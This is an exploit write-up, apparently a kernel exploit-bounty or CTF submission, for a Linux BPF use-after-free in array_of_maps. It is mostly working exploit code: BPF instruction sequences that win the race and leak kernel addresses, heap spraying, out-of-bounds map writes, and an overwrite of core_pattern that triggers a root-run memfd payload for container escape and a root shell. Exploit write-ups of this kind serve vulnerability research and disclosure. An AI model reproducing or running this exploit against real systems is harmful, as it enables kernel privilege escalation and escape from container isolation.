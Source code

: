 # Exploit Tech Overview

The vulnerability is that bpf program can hold arraymap pointer without increase refcount if it's from array_of_maps.  
If bpf first stores a arraymap pointer into one register, and do some time consume operation in the middle of program.  
It gives other thread chance to free that arraymap can reclaim it to another structure like array_of_maps.  

```C
//store a arraymap from array_of_map without increase refcount at BPF_REG_8
BPF_LD_MAP_FD(BPF_REG_9, array_of_map),
BPF_MAP_GET_ADDR(0, BPF_REG_8),
BPF_MOV64_REG(BPF_REG_9, BPF_REG_8),
BPF_MAP_GET_ADDR(0,BPF_REG_8),
```

`bpf_ringbuf_output` is a bpf function that use memcpy to copy buf to into another buf in line [1].    
```C
BPF_CALL_4(bpf_ringbuf_output, struct bpf_map *, map, void *, data, u64, size,
	   u64, flags)
{
	struct bpf_ringbuf_map *rb_map;
	void *rec;

	if (unlikely(flags & ~(BPF_RB_NO_WAKEUP | BPF_RB_FORCE_WAKEUP)))
		return -EINVAL;

	rb_map = container_of(map, struct bpf_ringbuf_map, map);
	rec = __bpf_ringbuf_reserve(rb_map->rb, size);
	if (!rec)
		return -EAGAIN;

	memcpy(rec, data, size); //[1]
	bpf_ringbuf_commit(rec, flags, false /* discard */);
	return 0;
}
```

If buf size is large, it will take some time to finish.  
It will be a good choice to extend the race windows for release and reclaim.  

```C
// do time comsume operation using BPF_FUNC_ringbuf_output copy large size buffer
BPF_MOV64_REG(BPF_REG_1, BPF_REG_6),
BPF_MOV64_REG(BPF_REG_2, BPF_REG_7),
BPF_MOV64_IMM(BPF_REG_3, 0x10000000),
BPF_MOV64_IMM(BPF_REG_4, 0x0),
BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_output)
```

Another thread can free the arraymap and reclaim as array_of_maps.  
And update its elem at index 0.

```C
	for (int i = 0; i < 0x100; i++) {
		spray_fd[i] = bpf_create_map(BPF_MAP_TYPE_ARRAY_OF_MAPS, 4, 4,
					     0x30, samplemap);
		update_elem(spray_fd[i], 0, victim);
	}
```

Bpf program treats BPF_REG_8 stored map address as arrymap, but it's arry_of_maps.
```C
// Now BPF_REG_8 is freed and reallocate as array_of_map
BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_8,0), 
```

We can leak arrymap address and array_map_ops by malformed arraymap.

```C
BPF_LDX_MEM( BPF_DW, BPF_REG_0, BPF_REG_8, 0), // Now BPF_REG_8 is freed and reallocate as array_of_map
BPF_STX_MEM(BPF_DW, BPF_REG_9, BPF_REG_0, 0), // store a arrymap address to our arrymap as value
BPF_ALU64_IMM(BPF_ADD, BPF_REG_0, -0x110), // adjust address to make value as bpf_array.map
BPF_STX_MEM(BPF_W, BPF_REG_8, BPF_REG_0,0), //store our malformed arraymap info array_of_maps
```

# Exploit Tech Detail

The exploit after win the race

* Modified victim arraymap's max_entries and index_mask.
* Use victim arraymap to modified near array_of_maps's value index 0 arraymap as (core_pattern-struct_bpf_array_offset).
* Update array_of_maps to modify core_pattern.
* Achieve container escape.


## Modified victim arraymap's max_entries and index_mask.

As the value is adjust as bpf_array.map, so we can create a bpf program to modify map.max_entrieds and array->index_mask

```C
		BPF_LD_MAP_FD(BPF_REG_9, target),
		BPF_MAP_GET_ADDR(0, BPF_REG_9),
		BPF_MAP_GET_ADDR(4, BPF_REG_8),
		BPF_ST_MEM(BPF_W, BPF_REG_8, 4, 0x800), //modify map.max_entries

		BPF_MAP_GET_ADDR(0x20, BPF_REG_8),
		BPF_ST_MEM(BPF_W, BPF_REG_8, 4,0xffff), //modify array->index_mask
```

So later we use bpf syscall to call array_map_lookup_elem/array_map_update_elem on bigger index.

## Use victim arraymap to modified near array_of_maps's value index 0 arraymap as (core_pattern-struct_bpf_array_offset).

Out of bound access from victim to modify next chunk's contents.  
With heap feng shui, the next chunk can be array_of_maps and we ovewrite its index 0 arraymap.  
```C
	// Store the address (core_pattern - struct_bpf_array_offset) we want to overwrite.
	update_elem(victim, (0x400 + 0x110 - 0x110) / 8, kaddr);
```

## Update array_of_maps to modify core_pattern.

Create another bpf program to modify index 0 arraymap and core_pattern will be overwritten.

```C
BPF_LD_MAP_FD(BPF_REG_9, target),
BPF_MAP_GET_ADDR(0, BPF_REG_9),
BPF_MAP_GET_ADDR(0, BPF_REG_8), // BPF_REG_8 will point to core_pattern
BPF_MAP_GET_ADDR(1, BPF_REG_7), // BPF_REG_8 will point to core_pattern+8
BPF_MAP_GET_ADDR(2, BPF_REG_6), // BPF_REG_8 will point to core_pattern+16

BPF_LD_MAP_FD(BPF_REG_9, data),

// Modify core_pattern to |/proc/%P/fd/666 %P
BPF_MAP_GET(0, BPF_REG_4),
BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_4, 0), 
BPF_MAP_GET(1, BPF_REG_4),
BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_4, 0),
BPF_MAP_GET(2, BPF_REG_4),
BPF_STX_MEM(BPF_DW, BPF_REG_6, BPF_REG_4, 0),

BPF_MOV64_IMM(BPF_REG_0, 0),
BPF_EXIT_INSN()
```

## Achieve container escape.

After core_pattern being overwritten to `|/proc/%P/fd/666 %P`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
	// Check if /proc/sys/kernel/core_pattern has been overwritten
	char buf[0x100] = {};
	int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
	read(core, buf, sizeof(buf));
	close(core);
	return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
	*(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

This code for root to run looks like:
```c++
// This section of code will be execute by root!
int pid = strtoull(argv[1], 0, 10);
int pfd = syscall(SYS_pidfd_open, pid, 0);
int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
dup2(stdinfd, 0);
dup2(stdoutfd, 1);
dup2(stderrfd, 2);
/* Get flag and poweroff immediately to boost next round try in PR verification workflow*/
system("cat /flag");
execlp("bash", "bash", NULL);
```
